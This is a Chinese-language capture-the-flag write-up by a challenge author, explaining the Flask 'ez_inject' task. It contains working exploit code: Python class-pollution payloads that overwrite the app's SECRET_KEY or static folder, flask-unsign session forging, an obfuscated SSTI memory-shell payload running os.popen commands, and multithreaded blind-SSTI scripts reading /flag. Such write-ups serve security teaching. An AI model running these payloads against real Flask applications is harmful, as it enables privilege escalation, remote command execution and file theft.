









+++
title = "DSBCTF2024"
slug = "dsbctf2024"
description = ""
date = "2024-11-13T11:11:11"
lastmod = "2024-11-13T11:11:11"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["出题", "flask"]
+++

# 0x01 

这次很荣幸投稿了一题，大菜鸡师傅也收了，但是测题的时候，可能是我的污染功底不够扎实吧，有个非预期，这里给大家写一份详细的wp

# 0x02  ez_inject

## 预期

首先进入之后先注册，然后看到下面这几个页面







这样子一看肯定就是注册页面有污染了，但是在哪里呢，F12看看有啥东西

发现除了有个cookie没了

```
eyJlY2hvX21lc3NhZ2UiOiJmc2Rmc2QiLCJpc19hZG1pbiI6MCwidXNlcm5hbWUiOiJiYW96b25nd2kifQ.ZzQM2g.UMnGpHtoMS9hsHEgg3M6epEcnoM
```

这个格式一看两个点，不排除是jwt的可能当然session的可能性更大，那么都试试



就说明不是jwt了，那么用`flask-unsign`解密一下

```shell
flask-unsign --decode --cookie 'eyJlY2hvX21lc3NhZ2UiOiJmc2Rmc2QiLCJpc19hZG1pbiI6MCwidXNlcm5hbWUiOiJiYW96b25nd2kifQ.ZzQM2g.UMnGpHtoMS9hsHEgg3M6epEcnoM'
```



发现确实是这里，但是不知道key的话怎么办呢，这里是session那么大概率是flask，也就是普通的merge函数进行污染，我们本地写个demo

```python
from flask import *
import os
app = Flask(__name__)
app.config['SECRET_KEY'] = 'baozongwi'

class test:
    def __init__(self):
        pass

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

print(app.config['SECRET_KEY'])
instance = test()
payload = {
    "__init__":{
        "__globals__":{
            "app":{
                "config":{
                    "SECRET_KEY":"12SqweR"
                }
            }
        }
    }
}
merge(payload, instance)

print(app.config['SECRET_KEY'])
```

发现污染成功了，那么这里我们写个exp进行污染

```python
import requests
import json

url = "http://3b4e7805-6cda-4195-8501-75be8c9d1787.challenge.ctf.show/register"

payload={
    "username": "wi",
    "password": "wi",
    "__init__": {
        "__globals__": {
            "app": {
                "config": {
                    "SECRET_KEY": "baozongwi"
                }
            }
        }
    }
}

r = requests.post(url=url, json=payload)

print(r.text)
```

然后用test用户登录，再进行session伪造

```
flask-unsign --decode --cookie 'eyJpc19hZG1pbiI6MCwidXNlcm5hbWUiOiJ0ZXN0In0.ZzQRJw.5luD7_AiQssLqzpkgoUyIgjb24U'

flask-unsign --sign --cookie "{'is_admin': 1, 'username': 'wi'}" --secret 'baozongwi'
```

换上之后发现这个



那么已经是flask框架了，我们可以尝试SSTI注入，经过测试之后发现是不用带括号的flaskSSTI注入



但是发现怎么打都打不了，试试内存马的打法呢，也不行

```
url_for["\137\137\147\154\157\142\141\154\163\137\137"]["\137\137\142\165\151\154\164\151\156\163\137\137"]['eval']("app.after_request_funcs.setdefault(None, []).append(lambda resp: CmdResp if request.args.get('cmd') and exec(\"global CmdResp;CmdResp=__import__('flask').make_response(__import__('os').popen(request.args.get('cmd')).read())\")==None else resp)", {'request':url_for["\137\137\147\154\157\142\141\154\163\137\137"]['request'],'app':url_for["\137\137\147\154\157\142\141\154\163\137\137"]['current_app']})
```



emm，那慢慢写试试

```
cycler["__in"+"it__"]

cycler["__in"+"it__"]["__glo"+"bals__"]

cycler["__in"+"it__"]["__glo"+"bals__"]["__bui"+"ltins__"]

cycler["__in"+"it__"]["__glo"+"bals__"]["__bui"+"ltins__"].__import__('builtins')


cycler["__in"+"it__"]["__glo"+"bals__"]["__bui"+"ltins__"].open('/flag').read(1)[0]=='c'
```



那么可以尝试盲注了，写exp

```python
import requests

url = "http://3b4e7805-6cda-4195-8501-75be8c9d1787.challenge.ctf.show/echo"
strings = "qwertyuiopasdfghjklzxcvbnm{}-12334567890"
target = ""

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "cookie": "user=eyJpc19hZG1pbiI6MSwidXNlcm5hbWUiOiJ3aSJ9.ZzQRug.xTdn035EIJg91RqVK6dsS0ymefE"
}

for i in range(50):
    for j in range(50):
        for string in strings:
            payload = '''
            cycler["__in"+"it__"]["__glo"+"bals__"]["__bui"+"ltins__"].open('/flag').read({})[{}]=='{}'
            '''.format(j + 1, j, string)
            data={
                "message":payload
            }
            r = requests.post(url=url, data=data, headers=headers)
            if r.status_code == 200 and "your answer is True" in r.text:
                print(string)
                target += string
                if string == "}":
                    print(target)
                    exit()
                break
```

但是发现这里非常慢，那加个多线程

```python
import requests
import concurrent.futures

url = "http://3b4e7805-6cda-4195-8501-75be8c9d1787.challenge.ctf.show/echo"
strings = "qwertyuiopasdfghjklzxcvbnm{}-12334567890"
target = ""

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "cookie": "user=eyJpc19hZG1pbiI6MSwidXNlcm5hbWUiOiJ3aSJ9.ZzQRug.xTdn035EIJg91RqVK6dsS0ymefE"
}

def check_character(i, j, string):
    payload = '''
    cycler["__in"+"it__"]["__glo"+"bals__"]["__bui"+"ltins__"].open('/flag').read({})[{}]=='{}'
    '''.format(j + 1, j, string)
    data = {"message": payload}
    r = requests.post(url=url, data=data, headers=headers)
    return string if r.status_code == 200 and "your answer is True" in r.text else None

with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    for i in range(50):
        futures = []
        for j in range(50):
            for string in strings:
                futures.append(executor.submit(check_character, i, j, string))

        for future in concurrent.futures.as_completed(futures):
            result = future.result()
            if result:
                print(result)
                target += result
                if result == "}":
                    print(target)
                    exit()

```

这就是预期解了

## 非预期

刚才看到污染的同学，我这里觉得提示很明显并且大家会跟着套路走，不过确实有很多师傅说这个SSTI不是很好测，emm，当时污染的json我也忘记做黑名单了，所以这里可以直接污染静态文件目录为根目录就可以拿到flag

```python
import requests
import json

url = "http://3b889b74-472b-4490-8994-17e02fe934b1.challenge.ctf.show/register"

payload={
    "username": "test",
    "password": "test",
    "__init__": {
        "__globals__": {
            "app": {
                "_static_folder":"/"
            }
        }
    }
}

r = requests.post(url=url, json=payload)

print(r.text)
```

这里直接访问`/static/flag`即可

# 0x03 

还是不够好啊，当时还在想，这个题能打这么快？
